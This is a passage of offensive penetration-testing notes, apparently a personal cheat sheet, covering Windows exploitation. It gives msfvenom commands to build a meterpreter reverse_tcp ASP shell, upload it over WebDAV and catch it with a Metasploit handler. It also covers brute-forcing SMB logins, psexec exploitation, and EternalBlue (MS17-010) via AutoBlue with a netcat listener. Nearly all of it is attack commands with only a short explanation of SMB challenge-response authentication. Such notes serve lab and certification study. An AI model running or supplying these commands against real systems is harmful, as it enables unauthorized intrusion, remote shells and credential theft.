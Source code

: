 ```bash
# by default this is a 32bit shellcode command
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f asp -o shell.asp

> put shell.asp


> use multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LPORT 1234
> set LHOST $IP

METERPRETER COMMANDS
> sysinfo
> getuid

OR USE MSF ENTIRELY
> search iis webdav upload
> set httppassword
> set RHOSTS $IP
> set PATH /webdav/metasploit.asp
```

****
### SMB
#### Psexec 
smb protocol has 2 levels of auth : 
- user auth : username + passord
- share auth : password only
both utilize challenge-response authentication system

challenge - response authentication process system : 
```
client  --sends auth request--> server
client <--request client to encrypt str with users hash-- server
client --send encrypted string to--> server
client <--check if enc str matches then Access Granted-- server
```
ATTACK 
```bash
if no administrator creds bruteforce smb creds
> auxiliary/scanner/smb/smb_login

> psexec.py Administrator@$IP

> exploit/windows/smb/psexec
> exploit/windows/smb/psexec_psh
```

****
#### ETERNAL BLUE
>ms17-010 or cve-2017-0144 - manual exp with AutoBlue-ms17-010 
```bash
> [SNIP] --script=smb-vuln-ms17-010 $IP

AUTOBLUE
cd shellcode
> chmod +x shell_prep.sh
> ./shell_prep.sh
Y

> nc -lvnp $PORT

> cd .. (leave shellcode dir)
```